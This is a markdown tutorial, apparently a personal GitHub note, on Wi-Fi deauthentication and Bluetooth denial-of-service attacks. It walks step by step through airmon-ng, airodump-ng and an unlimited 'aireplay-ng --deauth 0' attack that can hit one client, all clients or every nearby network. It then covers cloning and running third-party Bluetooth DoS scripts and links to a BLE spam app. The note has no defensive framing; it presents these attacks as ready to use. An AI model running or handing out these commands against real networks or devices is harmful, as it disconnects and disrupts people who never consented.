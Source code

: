 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later. 

`~$` is local user.  
`~#` is root user.  

> Here :
> for `-c` we mention channel no. of Wi-Fi network
> for `-bssid` we mention the BSSID of Wi-Fi network
> for `__STATION__` we mention the station/MAC-address of the Client
<br>

#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
ifconfig wlan0
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching your targeted Wi-Fi network/router
Now run the following commands :  
```
sudo su

airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching your targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>
<br>


#### Step 4 : Attacking (on particular Client // on all Clients)
Now open new terminal tab and run the following commands :  
```
sudo su


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client. Also, here `--deauth 0` means unlimited attack and we can even change it to `10` or `100` also.  
<br> 


#### Step 5 : Stop/closig the setup (NOT REQUIRED)
If we have captured files in the '/Desktop' location from step-3, and after handshake happned from step-4, then we can close the step with the following command :  
```
airmon-ng stop wlan0mon
```
But this is not required as of now for us.  




---
---
---




## Bluetooth DOS attack

***Internet is mandatory here.  

#### Step 1 : Setup Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon is not appearing, or it's not enabling, then follow the below commands :   
```
rfkill list all
	- - - sudo apt-get update (not required)
sudo apt reinstall blueman
sudo apt reinstall bluetooth
/etc/init.d/bluetooth status
sudo /etc/init.d/bluetooth start

clear

sudo systemctl list-unit-files --type=service
	to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service
sudo systemctl enable bluetooth.service
sudo systemctl list-unit-files --type=service

clear
exit
```
So, now the Bluetooth must be activated properly or can also refer to this [YouTube](https://youtu.be/w1MvrcBSNjw) video. And now we can go to next step.  
<br>


#### Step 2 (METHOD - 1) : Software Cloning from GitHub repo
Follow the below commands to get the copy of 'DOS attack' software : ([reference](https://github.com/crypt0b0y/BLUETOOTH-DOS-ATTACK-SCRIPT) github link)
```
sudo apt update
sudo apt install python3
sudo git clone https://github.com/jieggiI/BLUETOOTH-DOS-ATTACK-SCRIPT.git
cd BLUETOOTH-DOS-ATTACK-SCRIPT/
python3 Bluetooth-DOS-Attack.py
```
Here, the `git clone` command may ask for your 'username' & 'password' of GitHub account.  
<br>
<br>


#### Step 2 (METHOD - 2) : Scanning & Attack device
Scan & Attack on device with the following mini-steps : 
- List all the connected / identified USB devices : `lsusb`
- List connected BT devices with thier status : `hciconfig`
- Turn on BT device : `hciconfig hci0 up`
- List connected BT devices with thier status : `hciconfig`
- Scan surrounding BT devices : `hcitool scan`
- Clone BT DoS attacke python script : `git clone https://github.com/xanonDev/BLUETOOTH-DOS-ATTACK-SCRIPT`
- List current directory content : `ls`
- Go into the repository directory : `cd BLUETOOTH-DOS-ATTACK-SCRIPT`
- List current directory content : `ls`
- Execute the DoS attack script : `python3 Bluetooth-DOS-Attack.py`
<br>
<br>







#### Can refer some some links : 
gg-deauth bluetooth
- https://hackmag.com/security/bluetooth-ddos/
- https://github.com/its0x08/blue-deauth
- https://null-byte.wonderhowto.com/how-to/bt-recon-snoop-bluetooth-devices-using-kali-linux-0165049/
- https://www.youtube.com/watch?v=pHqd1PnOk_4
- https://www.youtube.com/watch?v=IE_SLohDce0
---
---
---




## Bluetooth Mocking/Spam app
There is also an android bluetooth spammig app, we can get this app from [GitHub](https://github.com/simondankelmann/Bluetooth-LE-Spam).


<br>

🕸🕸make .md note keep it 

